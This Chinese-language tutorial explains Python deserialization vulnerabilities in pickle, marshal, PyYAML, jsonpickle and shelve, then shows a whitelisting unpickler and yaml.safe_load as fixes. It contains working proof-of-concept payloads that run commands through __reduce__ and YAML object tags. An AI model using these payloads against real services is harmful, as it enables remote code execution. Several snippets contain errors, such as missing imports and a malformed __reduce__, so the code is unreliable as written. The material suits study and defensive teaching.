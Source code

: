 ## 反序列化

pickle模块实现了用于对Python对象结构进行序列化和反序列化的二进制协议。可造成威胁的一般是`pickle.load`和`pickle.loads`，或者面向对象的反序列化类`pickle.Unpickler`。

```
def ser():
    ser = request.values.get('ser')
    s = pickle.loads(ser)
```

简单的利用是使用`__reduce__`，生成利用代码

```
import pickle,os

class exp(object):
    def __reduce__(self):
        return (os.system,('whoami',))
e = exp()
pickle.dumps(e)
```

之前写的关于pickle的漏洞使用等：https://misakikata.github.io/2020/04/python-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

`Marshal`库序列化code对象，使用的`load`和`loads`方法会导致问题

```
import pickle,builtins,pickletools,base64
import marshal
import urllib
def foo():
    import os
    def fib(n):
        if n <= 2:
            return n
        return fib(n-1) + fib(n-2)
    print (fib(5))
try:
    pickle.dumps(foo.__code__)
except Exception as e:
    print(e)
code_serialized = base64.b64encode(marshal.dumps(foo.__code__))
code_unserialized = types.FunctionType(marshal.loads(base64.b64decode(code_serialized)), globals(), '')()
print(code_unserialized)
```

`PyYAML`库是yaml标记语言的python实现库，支持yaml格式的语言，有自己的实现来进行yaml格式的解析。yaml有一套对象转化规则，pyyaml在解析数据的时候遇到特定格式数据会自动转换。

比如，使用如下转换，实际是使用python模块执行了命令

```
cp = "!!python/object/apply:subprocess.check_output [[ls]]"
yaml.load(cp)
```

可以构造命令的python语法，有`!!python/object/apply`和`!!python/object/new`两种。`!!python/object`接收的是一个dict类型的对象属性。并不接收args的列表参数。

`jsonpickle`用于将任意对象序列化为JSON的Python库。该对象必须可以通过模块进行全局访问，并且必须继承自对象（又称新类）。

创建一个对象：

```python
class Thing(object):
    def __init__(self, name):
        self.name = name

obj = Thing('Awesome')
```

使用`Jsonpickle`将对象转换为JSON字符串：

```
import jsonpickle
frozen = jsonpickle.encode(obj)
```

使用`Jsonpickle`从JSON字符串重新创建Python对象：

```
thawed = jsonpickle.decode(frozen)
```

可以使用类似的利用方式：

```
>>> class Person(object):
...     def __reduce__(self):
...          return (__import__('os').system, ('whoami',))
...
>>> admin = Person()
jsonpickle.encode(admin)
'{"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}'
>>> s = jsonpickle.encode(admin)
>>> jsonpickle.decode(s)
misaki\user
```

`Shelve`是对象持久化保存方法，将对象保存到文件里面，缺省（即默认）的数据存储文件是二进制的。

由于shelve是使用pickle来序列化数据，所以可以使用pickle的方式来执行命令

```python
import shelve
import os
class exp(object):
    def __reduce__(self):
        return (os.system('whoami'))
file = shelve.open("test")
file['exp'] = exp()
```

### 修复代码

其中大部分反序列化库漏洞都是因为使用了`pickle`来做序列化和反序列化导致的，对于pickle，官方建议是重写`Unpickler.find_class()`设置白名单的方式来限制可以使用的模块方法，避免危险模块的引入。

```python
import io
import pickle
safe_builtins = {   #白名单
    'range',
    'complex',
    'set',
    'frozenset',
    'slice',
}
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == "builtins" and name in safe_builtins:   
            return getattr(builtins, name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))
def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()   
```

至于PyYAML，官方给了一个`safe_load`的函数和`safe_load_all`，可以安全的使用，因为它只解析进制格式类的转换。

反序列化最好不要直接去输入的参数进行，如果必须，可以采用加密签名的方式来达到输入的合法性和正确性。